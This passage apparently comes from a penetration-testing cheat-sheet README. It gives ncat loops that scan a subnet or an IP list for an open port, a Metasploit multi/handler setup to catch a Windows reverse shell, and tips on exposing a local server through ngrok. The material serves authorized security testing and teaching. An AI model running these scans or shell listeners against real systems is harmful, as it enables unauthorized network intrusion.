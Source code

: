 ```bash
for i in {0..255}; do ncat -nv "192.168.8.${i}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done

for ip in $(cat ips.txt); do ncat -nv "${ip}" 9000 -w 2 -z 2>&1 | grep -Po '(?<=Connected\ to\ )[^\s]+(?=\.)'; done
```

Find out how to create an SSL/TLS certificate from my other [project](https://github.com/ivan-sincek/secure-website/tree/master/crt).

### multi/handler

Set up a listener (change the PAYLOAD, LHOST, and LPORT as necessary):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address, but do not expose the web server for too long if it is not properly hardened due to security concerns.

I advise you not to transfer any sensitive data over it, just in case.

### Additional References

Credits to the authors!

* [infosecmatter.com/bug-bounty-tips](https://www.infosecmatter.com/bug-bounty-tips)
* [pentestbook.six2dez.com](https://pentestbook.six2dez.com)
